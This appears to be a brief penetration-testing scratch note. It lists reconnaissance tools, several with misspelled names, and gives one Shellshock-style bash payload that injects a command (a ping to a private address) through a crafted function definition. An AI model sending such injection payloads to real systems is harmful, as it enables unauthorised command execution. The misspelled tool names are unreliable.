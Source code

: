 # Tools used for Recon

1- Recon-ng 

2- Thehavester

3-shodan

4-Malteago
() { :; }; /bin/bash -c 'ping -c 4 192.168.100.4'

